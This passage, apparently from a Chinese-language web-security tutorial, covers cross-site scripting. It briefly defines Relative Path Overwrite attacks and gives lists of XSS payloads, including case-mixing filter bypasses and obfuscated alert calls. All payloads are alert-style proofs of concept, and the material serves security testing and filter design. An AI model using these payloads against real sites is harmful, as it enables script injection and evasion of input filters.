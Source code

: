 ```
</html>
```

```
// payload
<div data-role=popup id='-->
&lt;script&gt;alert(1)&lt;/script&gt;'>
</div>
```

**RPO(Relative Path Overwrite)  **

RPO(Relative Path Overwrite) 攻击又称为相对路径覆盖攻击，依赖于浏览器和网络服务器的反应，利用服务器的 Web 缓存技术和配置差异。  

## **2.10 Payload**

**常用**

```
• <script>alert(/xss/)</script>
• <svg onload=alert(document.domain)>
• <img src=document.domain onerror=alert(document.domain)>
• <M onmouseover=alert(document.domain)>M
• <marquee onscroll=alert(document.domain)>
• <a href=javascript:alert(document.domain)>M</a>
• <body onload=alert(document.domain)>
• <details open ontoggle=alert(document.domain)>
• <embed src=javascript:alert(document.domain)>
```

**大小写绕过**

```
• <script>alert(1)</script>
• <sCrIpT>alert(1)</sCrIpT>
• <ScRiPt>alert(1)</ScRiPt>
• <sCrIpT>alert(1)</ScRiPt>
• <ScRiPt>alert(1)</sCrIpT>
• <img src=1 onerror=alert(1)>
• <iMg src=1 oNeRrOr=alert(1)>
• <ImG src=1 OnErRoR=alert(1)>
• <img src=1 onerror="alert(&quot;M&quot;)">
• <marquee onscroll=alert(1)>
• <mArQuEe OnScRoLl=alert(1)>
• <MaRqUeE oNsCrOlL=alert(1)>
```

**各种alert**

```
• <script>alert(1)</script>
• <script>confirm(1)</script>
• <script>prompt(1)</script>
• <script>alert('1')</script>
• <script>alert("1")</script>
• <script>alert`1`</script>
• <script>(alert)(1)</script>
• <script>a=alert,a(1)</script>
• <script>[1].find(alert)</script>
• <script>top["al"+"ert"](1)</script>
• <script>top["a"+"l"+"e"+"r"+"t"](1)</script>
• <script>top[/al/.source+/ert/.source](1)</script>
• <script>top[/a/.source+/l/.source+/e/.source+/r/.source+/t/.source](1)</script>
```
